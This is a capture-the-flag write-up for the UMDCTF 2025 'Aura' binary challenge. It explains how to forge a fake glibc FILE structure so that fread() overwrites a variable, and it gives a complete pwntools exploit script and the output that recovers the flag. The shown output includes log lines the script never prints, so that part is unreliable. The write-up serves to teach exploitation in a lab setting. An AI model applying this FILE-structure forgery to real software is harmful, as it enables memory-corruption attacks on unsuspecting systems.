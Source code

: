 ```yaml
---
title: "Aura 🌟 – FILE Structure Forgery Exploit (UMDCTF 2025)"
tags: [CTF, binary exploitation, FILE Structure Forgery, pwn]
---
```


# UMDCTF 2025 - Aura Pwn Challenge Writeup 🌟
**Author:** [@notagain_pwn](https://github.com/notagain-pwn) (RaptX team)

![CTF](https://img.shields.io/badge/CTF-UMDCTF_2025-blue)
![Challenge](https://img.shields.io/badge/Challenge-Aura-informational)
![Category](https://img.shields.io/badge/Category-Pwn-red)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)

## Table of Contents 📚
- [Challenge Overview](#challenge-overview-) 📄
- [Introduction](#introduction-) 🎯
- [Source Code Analysis](#source-code-analysis-) 🔍
- [Exploitation Plan](#exploitation-plan-) 🛠️
- [Exploit Script](#exploit-script-) 🧠
- [Result](#result-) 🏆
- [Final Notes](#final-notes-) ✨

## Challenge Overview 📄

- **Binary:** aura (ELF 64-bit)

**Protections:**
```
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
Stripped: No
```

## Introduction 🎯

We are given a binary `aura`. When executed, it leaks a heap address ("aura") and expects us to submit a crafted structure.  
The goal is to forge a fake FILE structure and leverage `fread()` to overwrite "aura" into a non-zero value.

## Source Code Analysis 🔍

```c
// Main relevant parts
printf("my aura: %p\nur aura? ", &aura);
FILE *pFVar1 = fopen("/dev/null", "r");
read(0, pFVar1, 0x100);
fread(local_118, 1, 8, pFVar1);

if (aura == 0) {
    puts("u have no aura.");
} else {
    pFVar1 = fopen("flag.txt", "r");
    fread(local_138, 1, 0x11, pFVar1);
    printf("%s\n", local_138);
}
```

## Exploitation Plan 🛠️

1. Leak the heap address of `aura`.
2. Forge a valid `_IO_FILE` structure where:
    - `_IO_buf_base = aura`
    - `_IO_buf_end = aura + 0x10`
3. Overwrite "aura" with any non-zero bytes via `fread()`.
4. Access "flag.txt"!

## Exploit Script 🧠

```python
from pwn import *
import argparse

def connect(host=None, port=None):
    return remote(host, port) if host and port else process('./aura')

def leak_aura(p):
    p.recvuntil(b'my aura: ')
    return int(p.recvline().strip(), 16)

def forge_payload(aura_addr):
    payload  = p64(0) * 7
    payload += p64(aura_addr) + p64(aura_addr + 0x10)
    payload = payload.ljust(0x88, b' ')
    payload += p64(aura_addr)
    return payload

def exploit(p):
    aura = leak_aura(p)
    p.recvuntil(b'ur aura? ')
    p.send(forge_payload(aura))
    p.sendline(b'A'*8)
    p.interactive()

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--host', type=str)
    parser.add_argument('--port', type=int)
    args = parser.parse_args()
    p = connect(args.host, args.port)
    exploit(p)

if __name__ == '__main__':
    main()
```

## Result 🏆

```bash
$ python3 aura.py --host challs.umdctf.io --port 31006
[+] Leaked aura address: 0x58cc312f908c
[*] Sending forged FILE structure
[*] Overwriting aura value
[*] Switching to interactive mode
UMDCTF{+100aur4}
```

## Final Notes ✨

This challenge introduces basic but fun FILE structure manipulation, similar to concepts seen in "House of Orange" style heap exploitation.

🔙 [Back to UMDCTF 2025 Writeups](../../)
